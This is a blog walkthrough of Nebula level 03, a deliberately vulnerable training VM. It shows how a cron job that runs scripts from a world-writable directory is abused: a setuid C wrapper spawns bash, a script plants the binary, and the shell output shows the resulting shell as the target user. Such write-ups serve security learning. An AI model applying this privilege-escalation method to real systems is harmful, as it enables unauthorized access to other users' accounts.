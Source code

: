 ```yaml
---
layout: post
title: "Nebula Series - Level 03"
---
```


*Nebula is the first in a series of VMs from Exploit Exercises. It consists of 20 levels which range
in difficulty from simple to intermediate and cover topics like Linux privilege escalation and file
system race conditions.*

**Level 03**: the one where a scheduled job betrays its owner

<!--more-->

Cron jobs, similar to setuid binaries, run as a specific user. The instructions for
this level indicate that there is a crontab that is called every couple of minutes and that we should inspect the files in `/home/flag03`
for more clues.

Taking a closer look at that directory we see

```bash
level03@nebula:/home/flag03$ ls -l
total 4
drwxrwxrwx 1 flag03 flag03  40 2020-04-10 06:27 writable.d
-rwxr--r-- 1 flag03 flag03 103 2020-04-10 06:19 writable.sh
```

There's a directory `/writable.d`, that has some pretty lax permissions, and a script that's likely
related to the scheduled job mentioned in the instructions.

```bash
level03@nebula:/home/flag03$ cat ./writable.sh
#!/bin/sh

for i in /home/flag03/writable.d/* ; do
    (ulimit -t 5; bash -x "$i")
    rm -f "$i"
done
```

Ok, so the script iterates over the files in `/writable.d`, executes them, and then deletes them.
Could we abuse this to write to a directory we otherwise wouldn't have permission to? Say... `flag03`'s home directory?

We place the following script in a file in `/writable.d` and wait for the scheduled job to run

```bash
#!/bin/bash

touch /home/flag03/test
```

After a few minutes we check the directory

```bash
level03@nebula:/home/flag03$ ls -l
total 4
-rw-rw-r-- 1 flag03 flag03   0 2020-04-10 06:39 test
drwxrwxrwx 1 flag03 flag03  40 2020-04-10 06:39 writable.d
-rwxr--r-- 1 flag03 flag03 103 2020-04-10 06:19 writable.sh
```

Sure enough, our script placed a `test` file, owned by `flag03` in their home directory. Now what?

We've already learned from previous levels that a `setuid` binary can be exploited to gain the privileges of
the user that owns it, and we just learned that we can create files as `flag03`; the plan is coming together.

Because `setuid` is ignored on interpreted executables, let's write a simple C program that changes our real uid
and runs a shell.

We'll put the following in a file called `exploit.c`

```c
#include <stdlib.h>
#include <sys/types.h>

int main(int argc, char **argv, char **envp)
{
    uid_t uid;

    uid = geteuid();

    setresuid(uid, uid, uid);

    system("/bin/bash");
}
```

And we'll compile it and save the output as `2_exploit`

```bash
$ gcc /home/level03/exploit.c -o /home/level03/2_exploit
```

Next, let's create a script called `1_exploit.sh` that, when run by the scheduled job, will copy our executable to `flag03`'s home directory
and enable `setuid`.

```bash
#!/bin/bash

cp /home/flag03/writable.d/2_exploit /home/flag03/exploit
chmod +s /home/flag03/exploit
```

We've numbered the files so that they get executed in the proper order by the cron job otherwise it might delete our binary before
it gets copied.

We copy both of those files to `/home/flag03/writable.d` and wait for the scheduled job to run.

A few minutes later we see our `exploit` binary sitting in our target's home directory waiting for us to use it. Note that it's
owned by `flag03` and is `setuid`

```bash
level03@nebula:/home/flag03$ ls -l
total 12
-rwsrwsr-x 1 flag03 flag03 7243 2020-04-10 07:15 exploit
-rw-rw-r-- 1 flag03 flag03    0 2020-04-10 06:39 test
drwxrwxrwx 1 flag03 flag03   40 2020-04-10 07:15 writable.d
-rwxr--r-- 1 flag03 flag03  103 2020-04-10 06:19 writable.sh
```

All that's left is to run our executable to get a shell as `flag03`.

```bash
level03@nebula:/home/flag03$ ./exploit
bash-4.2$ whoami
flag03
bash-4.2$ getflag
You have successfully executed getflag on a target account
```

In summary:

- each cron job runs as a specific user
- if the job executes scripts in a directory with lax access controls, it can be exploited
